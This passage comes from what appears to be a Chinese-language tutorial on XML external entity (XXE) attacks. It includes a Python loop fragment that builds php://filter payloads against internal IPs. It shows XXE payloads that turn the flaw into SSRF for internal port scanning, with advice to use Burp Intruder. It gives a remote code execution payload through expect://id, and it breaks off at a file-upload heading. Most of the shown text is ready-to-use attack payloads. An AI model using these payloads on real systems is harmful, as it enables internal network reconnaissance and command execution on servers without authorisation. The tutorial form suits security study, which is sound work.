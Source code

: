 ```javascript
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```

复制

##### （4）HTTP 内网主机端口扫描

可以使用http URI并强制服务器向我们指定的端点和端口发送GET请求，将XXE转换为SSRF 以下代码将尝试与端口8080通信，根据响应时间/长度，攻击者将可以判断该端口是否已被开启

```javascript
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080" >]>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2020-11-11</date>
      <description>&xxe;</description>
   </core>
</catalog>
```

复制

可以将请求的端口作为 参数 然后利用 burp 的 intruder 来帮我们探测

##### （5）远程代码执行（RCE）

PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上 就可以执行如下的命令：

```javascript
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <author>John, Doe</author>
      <title>I love XML</title>
      <category>Computers</category>
      <price>9.99</price>
      <date>2020-11-11</date>
      <description>&xxe;</description>
   </core>
</catalog>
```

复制

##### （6）文件上传
